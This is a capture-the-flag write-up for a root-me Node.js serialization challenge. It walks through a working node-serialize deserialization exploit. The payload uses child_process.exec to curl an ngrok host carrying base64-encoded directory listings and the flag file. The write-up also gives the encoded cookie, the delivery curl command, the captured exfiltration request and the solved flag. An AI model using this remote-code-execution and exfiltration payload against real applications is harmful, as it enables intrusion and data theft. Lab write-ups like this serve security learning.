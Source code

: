 # root-me - Node - Serialize

```js
var profile = {
 userName : function(){
 require('child_process').exec('curl http://5249-1-55-197-127.ngrok.io?c=`ls -la / | base64`', function(error, stdout, stderr) { console.log(stdout) });
 },
 passWord : "hello",
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(profile));
```

**serialize results**:
```json
{"userName":"_$$ND_FUNC$$_function(){\n require('child_process').exec('curl http://5249-1-55-197-127.ngrok.io', function(error, stdout, stderr) { console.log(stdout) });\n }","passWord":"hello"}
```

Later I figured out that we can use JavaScript’s Immediately invoked function expression (IIFE) for calling the function. If we use IIFE bracket ()after the function body, the function will get invoked when the object is created. It works similar to a Class constructor in C++.

But to prevent it get execute from our machine other than victim machine, we add it by hand and base64 encode it

**edited to get the flag**:
```json
{"userName":"_$$ND_FUNC$$_function(){\n require('child_process').exec('curl http://d657-1-55-197-127.ngrok.io?c=`cat flag/secret | base64`', function(error, stdout, stderr) { console.log(stdout) });\n }()","passWord":"hello"}
```
Notice `()` at the end of the function

**base64 encoded**:
```
eyJ1c2VyTmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe1xuIHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdjdXJsIGh0dHA6Ly9kNjU3LTEtNTUtMTk3LTEyNy5uZ3Jvay5pbz9jPWBjYXQgZmxhZy9zZWNyZXQgfCBiYXNlNjRgJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7XG4gfSgpIiwicGFzc1dvcmQiOiJoZWxsbyJ9
```

And ....
```bash
curl 'http://challenge01.root-me.org:59067/' -H 'Cookie: profile=eyJ1c2VyTmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe1xuIHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdjdXJsIGh0dHA6Ly9kNjU3LTEtNTUtMTk3LTEyNy5uZ3Jvay5pbz9jPWBjYXQgZmxhZy9zZWNyZXQgfCBiYXNlNjRgJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7XG4gfSgpIiwicGFzc1dvcmQiOiJoZWxsbyJ9'
```

**captured request from ngrok**:
```
GET /?c=WTNwUzNyMGQzYzBtcDRuWTFzQjRkIQo= HTTP/1.1
Host: d657-1-55-197-127.ngrok.io
User-Agent: curl/7.68.0
Accept: */*
X-Forwarded-For: 2001:bc8:35b0:c166::151
X-Forwarded-Proto: http
Accept-Encoding: gzip
```

**flag**: `Y3pS3r0d3c0mp4nY1sB4d!`
